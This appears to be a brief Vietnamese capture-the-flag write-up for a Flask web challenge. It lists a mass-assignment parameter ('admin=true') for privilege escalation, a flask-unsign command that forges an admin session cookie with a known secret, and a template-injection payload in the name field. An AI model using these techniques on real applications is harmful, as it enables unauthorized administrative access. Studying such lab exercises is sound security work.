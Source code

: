 # giới thiệu
có một số chức năng: đăng kí, đăng nhập, update account
# solution
trong phần update account thêm vào param admin=true
final payload 
```&admin=true```
flask-unsign -S 'amorlove'  -s  -c "{'is_admin': True, 'user_id': '2', 'username': 'admin'}"
go to /dashboard
ssti in name => {{self.__dict__}}
# lưu ý sau khi làm những bài này
dumedeohoplygica
